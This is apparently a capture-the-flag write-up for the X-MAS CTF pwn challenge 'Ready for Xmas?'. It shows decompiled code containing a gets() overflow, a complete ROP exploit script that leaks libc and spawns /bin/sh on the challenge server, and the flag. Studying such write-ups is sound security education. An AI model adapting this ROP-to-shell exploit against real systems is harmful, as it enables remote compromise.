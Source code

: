 # Ready for Xmas? [127]
SOLVED

Are you ready for aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/bin/shawhkj\xffwaa ?

**Target**: nc challs.xmas.htsp.ro 2001

**Author**: Th3R4nd0m

**Files**: ready_for_xmas.zip

#### The python library used here is [`pwnscripts`](https://github.com/152334H/pwnscripts)
## Solving
important stuff in decompiler:
```c
int system(const char *s) {
  return system(s);
}
void set_rdx_as_r15() {
    // this sets rdx = r15
}
int main() {
  char haystack[64]; // [rsp+0h] [rbp-40h] BYREF
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  if ( has_main_occured )
    exit(0);
  memset(aCatFlag, 0, sizeof(aCatFlag));
  puts("Hi. How are you doing today, good sir? Ready for Christmas?");
  gets(haystack); // !!!! vuln !!!!
  if ( strstr(haystack, "sh") || strstr(haystack, "cat") )
    exit(0); // if haystack contains these strings
  has_main_occured = 1;
  mprotect(&has_main_occured, 1uLL, 1);
  return 0;
}
```
checksec:
```python
[*] chall
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
This challenge was presumably designed with the idea of disabling mprotect with the inline assembly function. Or something. The `set_rdx_as_r15()` function is a little bit confusing, considering you can use ret2csu to set rdx without anything special.

I'm also not entirely sure what the point of having a `system()` function was; I just busted through the challenge with a ROP to `.bss` to ROP to libc's `/bin/sh`. 

```python
from pwnscripts import *
context.binary = 'chall'
context.libc_database = '../libc-database'
context.libc = 'libc.so.6'
NOWHERE = 0x601900
r = remote('challs.xmas.htsp.ro', 2001)
PAD = 0x48

R = ROP(context.binary)
R.raw(PAD*b'a')
R.puts(context.binary.got['gets'])
R.gets(NOWHERE)
R.migrate(NOWHERE)
r.sendlineafter('\n', R.chain())

context.libc.calc_base('gets', unpack_bytes(r.recvline(),6))
R = ROP(context.binary)
R.system(context.libc.symbols['str_bin_sh'])
r.sendline(R.chain())
r.interactive()
```
## Flag
`X-MAS{l00ks_lik3_y0u_4re_r3ady}`